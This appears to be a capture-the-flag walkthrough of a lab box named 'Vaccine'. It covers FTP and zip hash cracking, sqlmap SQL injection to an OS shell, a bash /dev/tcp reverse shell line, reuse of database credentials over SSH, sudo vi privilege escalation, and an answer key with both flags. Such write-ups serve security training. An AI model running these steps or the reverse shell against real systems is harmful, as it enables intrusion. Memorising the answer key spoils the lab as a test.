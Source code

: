 # Vaccine

> IP: [10.129.95.174]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.129.95.174 -oN init_scan
      1. Port 21 -> ftp
         1. ftp-anon: Anonymous FTP login allowed
            1. -rwxr-xr-x 1 0 0 2533 Apr 13 2021 `backup.zip`
      2. Port 22 -> ssh
      3. Port 80 -> http
3. FTP
   1. Login as anonymous user
      1. > ftp anonymous@10.129.95.174
4. HASH CRACK
   1. Need to run zip2john to generate our hash file that can then be used by john the ripper to crack
      1. > zip2john ./backup.zip > zip.hash
   2. Now crack the hash
      1. > john ./zip.hash --wordlist=/opt/rockyou.txt
         1. RESPONSE: "741852963 (backup.zip)"
   3. ZIP
      1. Now we can unzip our file
         1. > unzip backup.zip
            1. PW: 741852963
               1. We are given a index.php and styles.css file
5. FILES
   1. Looking at the index.php file we see the first section looks to be a login authenticator

        ```php
            session_start();
            if(isset($_POST['username']) && isset($_POST['password'])) {
                if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
                $_SESSION['login'] = "true";
                    header("Location: dashboard.php");
                }
            }
        ```

        1. We can see that it checks for the username = admin, and the password = md5("2cb42f8734ea607eefed3b70af13bbd3")
        2. So lets use throw the hash into crackstation and it should be able to crack it (as md5)
           1. RSEPONSE: `qwerty789`
6. HTTP
   1. Navigate to website
      1. We know the login from the previous steps
         1. UN: admin
         2. PW: qwerty789
   2. Once logged in we see a table with a car catalogue
      1. This has a search input form 
         1. Input "Elixir" and we get just the single row
            1. So this makes me think we need to do some sql-injection
         2. Also upon input we see that the url is changed to "?search=elixir"
            1. TEST LFI "?search=../../../../../../etc/passwd"
               1. No result
7. SQLi
   1. MANUAL TESTING
      1. INPUT_1 (single quote): elixir' and #
         1. RESPONSE: ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%elixir' and #%' ^
            1. This is helpful as it gives us the rough SQL structure
      2. INPUT_2 (double quote): elixir" and #
         1. RESPONSE: nothing
   2. SQLMAP
      1. Now lets try using sqlmap to see if we can find a foothold
         1. > sqlmap -h
            1. We see to get command execution it is `--os-shell`
      2. Craft sqlmap command
         1. Because we login (authenticate) we should pass the cookie through our sqlmap command
         2. > sqlmap -u "http://10.129.95.174/dashboard.php?search=query" --cookie="PHPSESSID=o77tgl64oijua74j4arprig369"
            1. [INFO] the back-end DBMS is PostgreSQL
      3. Now lets rerun this but with --os-shell
         1. > sqlmap -u "http://10.129.95.174/dashboard.php?search=query" --cookie="PHPSESSID=o77tgl64oijua74j4arprig369" --os-shell
            1. SUCCESS! Now lets try and get a revshell that is more stable
               1. > bash -c "bash -i >& /dev/tcp/MY_IP_ADDR/1234 0>&1"
                  1. SUCCESS! Now stabilize revshell
8. ENUMERATION
   1. > whoami
      1. postgres
   2. Search for user flag
      1. > find / -name user.txt 2>/dev/null
         1. /var/lib/postgresql/user.txt
      2. > cat /var/lib/postgresql/user.txt
         1. FLAG: `ec9b13ca4d6229cd5cc1e09980965bf7`
   3. Search webapp (website) files for credentials?
      1. > ls /var/www/html
         1. > cat dashboard.php

            ```php
                try {
                    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
                }
            ```

            1. In here we can see a postgres connection with username and password credentiala
               1. UN: postgres
               2. PW: P@s5w0rd!
            2. Maybe we can use these to ssh in as postgres with this password
9. SSH
   1. SSH in as postgres user
      1. > ssh postgres@10.129.95.174
         1. PW:P@s5w0rd!
10. ENUMERATION PT.2
    1. POSTGRES
       1. Now as the postgres user lets check sudo privileges (if any)
          1. > sudo -l

                ```text
                    Matching Defaults entries for postgres on vaccine:
                        env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
                        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

                    User postgres may run the following commands on vaccine:
                        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
                ```

                1. So we can run `vi` as root on the pg_hba.conf
11. EXPLOIT
    1. GTFOBins
       1. vi
          1. In here we can see that once we are in the program (vi) we can use the following to get a shell
             1. :set shell=/bin/bash
             2. :shell
    2. Run commands
       1. SUCCESS!
    3. ROOT
       1. Get root flag
          1. > cat /root/root.txt
             1. FLAG: `dd6e058e814260bc70e9bbdef2715849`

## QUESTIONS

1. Besides SSH and HTTP, what other service is hosted on this box?
   1. `ftp`
2. This service can be configured to allow login with any password for specific username. What is that username?
   1. `anonymous`
3. What is the name of the file downloaded over this service?
   1. `backup.zip`
4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?
   1. `zip2john`
5. What is the password for the admin user on the website?
   1. `qwerty789`
6. What option can be passed to sqlmap to try to get command execution via the sql injection?
   1. `--os-shell`
7. What program can the postgres user run as root using sudo?
   1. `vi`
8. Submit user flag
   1. `ec9b13ca4d6229cd5cc1e09980965bf7`
9. Submit root flag
   1. `dd6e058e814260bc70e9bbdef2715849`
